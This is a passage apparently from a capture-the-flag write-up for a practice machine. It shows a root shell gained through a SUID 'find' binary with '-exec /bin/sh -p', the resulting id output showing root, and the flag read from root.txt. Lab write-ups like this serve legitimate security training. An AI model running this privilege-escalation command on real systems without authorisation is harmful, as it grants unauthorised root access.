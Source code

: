 Execute it and become the root:

```tsx
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# whoami
root
```

**What did you exploit to get the privileged user?**

```
find
```

Get the flag in `root.txt`:

```tsx
# cd root
# ls
root.txt
# cat root.txt
It wasn't that hard, was it?
```

******************root.txt?******************

```tsx
It wasn't that hard, was it?
```